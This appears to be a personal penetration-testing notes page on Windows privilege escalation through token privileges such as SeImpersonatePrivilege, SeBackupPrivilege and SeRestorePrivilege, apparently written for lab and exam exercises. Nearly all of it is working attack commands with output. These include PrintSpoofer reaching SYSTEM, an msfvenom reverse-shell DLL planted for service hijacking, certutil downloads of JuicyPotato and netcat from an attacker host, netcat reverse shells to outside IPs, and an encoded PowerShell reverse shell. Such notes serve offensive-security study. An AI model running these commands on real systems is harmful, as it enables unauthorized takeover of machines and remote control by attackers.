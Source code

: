 # Token Impersonation

```
whoami /priv
```



Doing further research on token impersonation vulnerabilities, you will see a number of different exploits exist. These have whimsical names such as Hot Potato, Rotten Potato, Lonely Potato, Juicy Potato, etc. You will be able to decide on which "Potato" better suits your need depending on the version of the target system. While some of these exploits will run on the target system, others may require you to set up a fake server on the same network.



{% hint style="info" %}
Other privileges that may lead to privilege escalation are _SeBackupPrivilege_, _SeAssignPrimaryToken_, _SeLoadDriver_, and _SeDebug_. In this section, we'll closely inspect privilege escalation vectors in the context of _SeImpersonatePrivilege_.
{% endhint %}

## PWK2024 - SeImpersonatePrivilege

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe 
...
2022-07-07 03:48:45 (16.6 MB/s) - ‘PrintSpoofer64.exe’ saved [27136/27136]

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
PS C:\Users\dave> .\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\system32> whoami
whoami
nt authority\system
```
{% endcode %}

## Capstone exercise 16.3.2 Q2

{% code title="Created payload to be copied on the victim" overflow="wrap" lineNumbers="true" %}
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.218 lport=5555 -f dll > EnterpriseServiceOptional.dll
 
```
{% endcode %}

{% code title="Download and restart service" overflow="wrap" lineNumbers="true" %}
```
PS C:\Services> iwr -uri http://192.168.45.218/EnterpriseServiceOptional.dll -Outfile EnterpriseServiceOptional.dll     
PS C:\Services> Restart-Service EnterpriseService                                                                       PS C:\Services>     
```
{% endcode %}

### SeBackupPrivilege

Used the steps from here to copy files and enable SeBackupPrivilege to copy flag.txt

{% code title="Enable SeBackupPrivilege and copy flag.txt" overflow="wrap" lineNumbers="true" %}
```
iwr -uri http://192.168.45.218/SeBackupPrivilegeUtils.dll -Outfile SeBackupPrivilegeUtils.dll
iwr -uri http://192.168.45.218/SeBackupPrivilegeCmdLets.dll -Outfile SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSeBackupPrivilege c:\users\enterpriseadmin\Desktop\flag.txt c:\users\enterpriseuser\flag.txt
```
{% endcode %}

## Old

We will need to check the list of [CLSID](http://ohpe.it/juicy-potato/CLSID/) to use the exploit.



**Exploit and CLSID list**:

```
https://github.com/ohpe/juicy-potato
```

{% code overflow="wrap" %}
```
certutil.exe -urlcache -f http://10.10.XX.XX/JuicyPotato.exe C:\Temp\JuicyPotato.exe
certutil.exe -urlcache -f http://10.10.XX.XX/nc.exe C:\Temp\nc.exe
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.XX.XX 555" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

or without a CLSID
 .\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\Users\merlin\Desktop\nc.exe -e cmd.exe 10.10.16.22 5555" -t * 
```
{% endcode %}

## SeRestorePrivilege

check this walk-through here [https://www.youtube.com/watch?v=1nRzABu6eKU](https://www.youtube.com/watch?v=1nRzABu6eKU) and use this tool [https://github.com/xct/SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)&#x20;

Encode PS reverse oneliner to UTF-16LE + base64

```
.\SeRestoreAbuse.exe "cmd /c powershell -exec bypass -enc <base64 encoded reverse shell here>"
```

